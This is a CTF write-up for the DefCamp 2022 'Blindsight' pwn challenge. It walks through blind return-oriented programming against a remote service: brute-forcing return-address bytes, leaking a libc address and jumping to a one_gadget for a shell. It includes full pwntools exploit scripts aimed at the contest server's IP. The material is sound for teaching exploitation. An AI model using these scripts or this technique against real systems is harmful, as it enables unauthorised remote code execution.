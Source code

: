 **Blindsight**,

was a pwn challenge from DefCamp 2022.

I got first blood on it (I played with Water Paddler).

It was a classic blind remote rop, with no binaries.

![](https://github.com/nobodyisnobody/write-ups/raw/main/DefCamp.CTF.2022/pwn/blindsight/pics/prog.png)

Well, basicall we first have to find the size of the buffer overflow, if we send more than 88 bytes for input, the program will crash, and the LSB of the return address will be overwritten.

Then we write a little script that send all value between 0 to 255 for the lsb and see that various functions we can reach.. what is their output, etc...

a script like this can do the job.. (nothing complicated)

```python3
from pwn import *

for i in range(256):
  p = connect('34.159.129.6', 30550)
  print('trying char: '+hex(i))
  p.sendafter('friend?\n' , 'A'*88+chr(i))
  try:
    print(hexdump(p.recv(timeout=2)))
  except:
    print('.')
  p.close()
```

Ok let's see what we get bruteforcing the LSB of the return address
case LSB =:
* 0x0a   --> print message 'No password for you!\n'
* 0x0c   --> print message 'No password for you!\n'
* 0x0e   --> print message 'Do not dump my memory!\n'
* 0x13  --> leak a part of the stack (we can see libc and stack addresses in it...)
* 0x1a   --> print message 'No password for you!\n'
* 0x1f  --> leak a part of the stack (we can see libc and stack addresses in it...)
* 0xbb --> print message 'Are you blind my friend?\n'

ok that's the result of out first quick fuzzing..

ok what is the next step?

well we know LSBs that return us messages, let's choose one of them,  0xBB for example.. and let's bruteforce the next LSBs in the return address..

we modify a bit the script above..and start again..

```python3
from pwn import *

for i in range(256):
  p = connect('34.159.129.6', 30550)
  print('trying char: '+hex(i))
  p.sendafter('friend?\n' , 'A'*88+p8(0xbb)+chr(i))
  try:
    print(hexdump(p.recv(timeout=2)))
  except:
    print('.')
  p.close()
```

ok we found that the second byte that come next is 0x07

we do the same for the third byte, and found that it is 0x40

So it gives us an address 0x4007bb.

That tell us two things,  that the binary is 64bit linux binary, and that it is non-PIE , the program binary is mapped at a fixed address,

that will make us things more simple...

so what's next..?

Well next step for this kind of challenge , is to find the libcsu gadget, that is almost always present inf 64bit binaries produced by gcc.

if you don't know what it the csu gadget, you can read this explanation for example (or google for: "libcsu gadget", "ret2csu" )

[https://gist.github.com/kaftejiman/a853ccb659fc3633aa1e61a9e26266e9](https://gist.github.com/kaftejiman/a853ccb659fc3633aa1e61a9e26266e9)

the libcsu gadget is often near the end of the binary, and it allows us to call a function inside the program, and to set the registers rdi, rsi, rdx..

the libcsu gadgets is in two part, one part set the registers,  it is a gadget that does:  pop rbx / pop rbp/pop r12/ pop r13 / pop r14 / pop r15 / ret

so 6 times pop, and a ret.

The second part set registers for the calling and call a function:    mov rdx, r15   /  mov rsi, r14 / mov edi, r13d / call qword[r12+rbx*8] , etc....

The second part with the 6 times pop and ret, is easy to find once you know an address that return some sort of message, text.. (0x4007bb in our case..)

knowing that theses gadgets are at the end of the binary, we will start scanning from addresses a little after the one we found,

and send a ROP payload like this:  p64(address.tested) + p64(0xdeadbeef)*6 + p64(0x4007bb)

when address tested will be the correct address of the 6xpop gadget,  0x4007bb our function that print a message will be executed.. and we will receive a message in return..

if we receive nothing, we increase the tested adress...and so on... until we found the 6 x pop gadget


That's the "classic way".

One you know the 6 x pop gadget address,  you can deduce easily the address of the second libcsu gadget that calls the function..

then with the knowledge of our 2 libcsu gadget, we will scan for a got entry of a puts, or a write, or a printf for example.. these got entries around the same addresses..

depending if the program is full relro, half relro.. etc...

then when you find one printf, or puts, or a write function,  you can dump whatever memory address you want.

You then dump the entire binary... analyse it...exploit it...and that's all...

It's a bit time consuming ... but the whole process works well...



Well, the "classic way" did not work for me, I did not found the "6 x pop" gadget...

So I started scanning the program functions before those I found.. addresses before 0x4007bb

and BINGO.. I found this address at 0x4006fb,

that returns me a part of the stack, and go back to the input, awaiting for our second payload ... perfect !

![](https://github.com/nobodyisnobody/write-ups/raw/main/DefCamp.CTF.2022/pwn/blindsight/pics/function.png)

so... what we have on stack ?

looking at the returned addresses with an experienced eye.. we can see what is probably a libc address at offset 0x10

probably two stack addresses at offsets 0x18 and 0x20

another libc address at 0x38 probably...

The libc is given in this challenge, and that will help us.

Let's start with the first libc address that ends with 620, and see what this could be...

![](https://github.com/nobodyisnobody/write-ups/raw/main/DefCamp.CTF.2022/pwn/blindsight/pics/readelf.png)

well ̀ ```__IO_2_1_stdout_``` seems a good candidate, it's at offset 0x3c5620..

so the plan:

* Send a first payload that calls 0x4006fb function, and calculate libc address with the leaks we got in return
* Send a second payload, with the address of a onegadget from libc-2.23.so... and enjoy..


let's give it a try...

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', filename]).decode().split(' ')]

libc = ELF('./libc-2.23.so')

host, port = '34.159.129.6', '30550'

p = remote(host,port)

# address that return us a chunk of stack, and ask input again (find by bruteforcing address)
test = 0x4006fb

payload = 'A'*88+p64(0x4006fb)

p.sendafter('friend?\n' , payload)

buff = p.recv()
# get libc leak from stack
leak = u64(buff[0x10:0x18])
libc.address = leak - 0x3c5620
print('libc base (could be): '+hex(libc.address))

print(hexdump(buff))

onegadgets = one_gadget('libc.so.6', libc.address)

payload = 'A'*88+p64(onegadgets[1])
p.send(payload)

p.interactive()
```

![](https://github.com/nobodyisnobody/write-ups/raw/main/DefCamp.CTF.2022/pwn/blindsight/pics/gotshell.gif)

and that's all...

*nobodyisnobody still pwning things..* (you know that little colorfull characters that move on screen...)

